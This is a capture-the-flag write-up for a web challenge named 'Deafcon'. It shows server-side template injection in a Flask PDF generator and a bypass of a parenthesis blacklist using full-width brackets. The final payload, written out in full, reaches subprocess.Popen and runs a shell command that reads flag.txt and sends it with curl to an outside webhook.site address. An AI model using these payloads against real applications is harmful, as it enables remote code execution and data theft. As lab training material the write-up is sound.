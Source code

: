 ```yaml
---
grand_parent: Categories
parent: Web
title: Deafcon
nav_order: 7
---
```


# Deafcon

```
Deafcon 2022 is finally here! Make sure you don't miss it.
```

## Challenge

> Flask SSTI with standard parenthesis blacklisted `()`, use the full-width variant instead `（）`.

Visiting the site, it allows us to generate a PDF using 2 input parameters (`name` and `email`):

<img src="images/deafcon-1.png">

<!-- {% raw %} -->

Attempting to inject a SSTI payload `{{191*7}}` in the `email` field revealed that SSTI is possible:

<!-- {% endraw %} -->

<img src="images/deafcon-2.png">

> The `name` field only accepted `[a-zA-Z0-9_ ]` so we will be injecting via the email field.

Checking for any other blacklisted characters, we see that parenthesis is denied:

<img src="images/deafcon-3.png">

So let's try it out with a full-width bracket (url-encoded values `%EF%BC%88` and `%EF%BC%89`):

<img src="images/deafcon-4.png">

<!-- {% raw %} -->

Attempting to inject the SSTI payload to retrieve all loaded subclasses `{{''.__class__.__mro__[1].__subclasses__（）}}`:

<!-- {% endraw %} -->

<img src="images/deafcon-5.png">

Shows that injection was successful and we are now able to find the index of `<class 'subprocess.Popen' >`, which was found at index 429. With access to `subprocess.Popen`, we are able to achieve RCE using the following payload in the `email` field:

<!-- {% raw %} -->

```
"{{''.__class__.__mro__[1].__subclasses__（）[429]（['cat flag.txt|xargs -I {} curl https://webhook.site/e3c7ad5f-a6fc-4479-8a24-ca5b45376017?flag={}'],shell=True）}}"@b.com
```

<!-- {% endraw %} -->

which reads the flag and sends it to our controlled domain:

<img src="images/deafcon-6.png">

Flag: `	flag{001a305ac5ab4b4ea995e5719ab10104}`
